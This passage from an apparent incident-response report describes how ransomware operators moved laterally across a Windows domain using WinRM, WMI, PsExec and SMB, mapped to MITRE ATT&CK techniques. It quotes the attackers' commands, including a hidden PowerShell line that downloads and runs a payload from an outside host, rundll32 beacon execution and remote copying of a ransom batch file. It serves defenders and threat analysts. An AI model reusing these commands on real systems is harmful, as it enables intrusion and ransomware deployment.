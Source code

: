 C:\Windows\system32\cmd.exe /C wmic /node:"REDACTED" /user:"USER" /password:"REDACTED" os get caption

Then another recon round occurred using NSLOOKUP to map assets to IP addresses.

This was followed by network scans for RDP:

During this intrusion, threat actors used a number of different techniques to move laterally across the domain. The techniques used will be detailed in the following sections.

# T1021.006 Remote Services: WinRM

Some of the threat actors’ lateral activity was executed using WinRM, this could be observed by matching parent-child process trees and DCE RPC traffic.

# T1047 WMI

Threat Actors ran the following command to download and execute an in memory PowerShell payload on a domain controller:

C:\\Windows\\System32\\wbem\\wmic.exe /node:REDACTED process call create \""cmd.exe /c powershell.exe -nop -w hidden -c \""\""IEX ((new-object net.webclient).downloadstring('https://aicsoftware[.]com:757/coin'))\""\"""

WMI was also used also when executing remote DLL beacons:

C:\Windows\system32\cmd.exe /C wmic /node:"REDACTED" process call create "c:\windows\system32\rundll32.exe c:\windows\temp\1.dll, DllRegisterServer

WMI commands were also observed during ransom deployment:

wmic /node:REDACTED /user:DOMAIN\USER /password:REDACTED process call create cmd.exe /c copy \\REDACTED\c$\windows\temp\p.bat c:\windows\temp

# T1021.002 Remote Services: SMB/Windows Admin Shares

The threat actors relied on SMB to move their tools throughout the network during the intrusion.

The threat actors used PSExec to move laterally to servers during the ransom execution, the -r flag was used to rename the binary created on the remote server to mstdc.exe .

Below are some of the PsExec forensic artifacts logged in Windows Event Logs and Sysmon:

Overview of the mstdc.exe binary (renamed psexecsvc.exe):

Renaming PsExec is likely an action taken by threat actors to bypass basic PsExec anomaly rules. However, there are Sigma rules which detect this specific technique, as shared by Florian Roth back in 2019.

They also employed use of the Windows copy utility to move files around the network via SMB:

cmd.exe /c copy \\REDACTED\c$\windows\temp\p.bat c:\windows\temp\

# T1021.001 Remote Services: RDP
